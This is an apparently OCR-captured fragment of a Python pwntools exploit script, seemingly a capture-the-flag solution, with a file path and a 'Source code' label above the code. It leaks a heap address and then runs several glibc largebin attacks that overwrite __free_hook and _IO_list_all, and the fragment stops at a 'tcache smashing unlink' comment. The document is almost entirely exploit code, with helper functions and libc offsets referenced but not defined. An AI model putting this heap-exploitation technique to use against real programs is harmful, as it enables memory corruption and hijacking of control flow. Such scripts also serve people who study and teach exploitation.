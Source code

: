 ```python
delet(10)
add(0x430, cyclic(0x160))#1->12
fixed_largebin_fd = libc_base + 0x21a0d0
change(2)
change(1)
payload = cyclic(0x160)
edit(10, payload)
view(10)
p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x13120
log.success("heap0_base = {}".format(hex(heap_base)))
#fix it
payload = p64(fixed_largebin_fd)*2 + cyclic(0x150)
edit(10, payload)
change(2)
add(0x410, cyclic(0x160))# 2->6 largebin1

#largebin attack
change(2)
add(0x410, cyclic(0x160))# 2->7 largebin2
change(1)
add(0x430, cyclic(0x160))# 1->13 protect
change(2)
add(0x410, cyclic(0x160))# 2->8 
change(1)
add(0x430, cyclic(0x160))# 1->14 protect
change(2)
add(0x420, cyclic(0x160))# 2->9 largebin3
change(1)
add(0x430, cyclic(0x160))# 1->15 protect

change(2)
delet(9)
change(1)
add(0x430, cyclic(0x160))# trigger largebin3 1->16

#largebin attack1
change(2)
delet(6)
payload = p64(heap_base+0x14e60) + p64(free_hook + 0x8-0x20)+cyclic(0x150)
edit(9, payload)

change(1)
add(0x430, cyclic(0x160))# trigger largebin1 1->17

change(3)
add(0x410, cyclic(0x160))# memsetgot-0x8 -> 2->9   3->2

#fix largebin&attck2
change(2)
delet(7)
payload = p64(heap_base+0x14e60) + p64(iolistall-0x20)+cyclic(0x150)
edit(9, payload)
change(1)
add(0x430, cyclic(0x160))# trigger largebin2 1->18 iolistall-> 2->7
#fix largebin
change(2)
payload = p64(heap_base+0x14e60)*2+cyclic(0x150)
edit(7, payload)
payload = p64(heap_base+0x13da0)*2+cyclic(0x150)
edit(9, payload)

#tcache smashing unlink
```